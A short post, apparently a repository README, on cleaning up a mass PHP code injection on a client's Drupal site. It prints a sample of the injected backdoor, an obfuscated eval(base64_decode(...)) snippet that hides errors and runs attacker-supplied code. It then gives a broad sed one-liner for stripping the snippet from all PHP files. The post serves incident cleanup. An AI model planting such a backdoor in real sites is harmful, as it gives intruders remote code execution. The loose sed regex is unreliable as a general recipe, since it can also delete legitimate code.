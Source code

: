 # Remove Drupal code injection

Had a client whose site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:

```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w')); /*457563643*/ ?>```


With too many files to clean up manually, we removed the offending code with

```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```

,replaced the core files with the latest Drupal files and put the cleaned up code into version control.

Your mileage may vary. 
